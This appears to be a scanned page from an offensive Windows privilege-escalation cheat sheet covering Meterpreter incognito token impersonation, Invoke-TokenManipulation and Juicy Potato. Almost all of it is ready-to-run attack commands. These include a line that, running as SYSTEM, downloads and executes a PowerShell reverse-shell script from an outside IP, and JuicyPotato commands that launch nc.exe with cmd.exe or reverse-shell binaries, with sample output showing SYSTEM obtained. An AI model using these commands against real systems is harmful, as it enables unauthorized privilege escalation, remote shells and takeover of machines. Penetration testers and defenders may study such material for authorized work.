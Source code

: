 Incognito (Meterpreter)

```bat
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```
TokenManipulation

```bat
Invoke-TokenManipulation -Enumerate
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```
> For more information, see next cheatsheet Domain Escalation

### Juicy Potato

**abusing the golden privileges**

[https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases) Juicy Potato doesn't work on Windows Server 2019 and Windows 10 1809 +.

```bat
Check the privileges of the service account, you should look for SeImpersonate and/or SeAssignPrimaryToken (Impersonate a client after authentication)

whoami /priv

Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
    Windows 7 Enterprise
    Windows 8.1 Enterprise
    Windows 10 Enterprise
    Windows 10 Professional
    Windows Server 2008 R2 Enterprise
    Windows Server 2012 Datacenter
    Windows Server 2016 Standard

Execute JuicyPotato to run a privileged command.

JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
    Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
    ......
    [+] authresult 0
    {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
    [+] CreateProcessWithTokenW OK
```
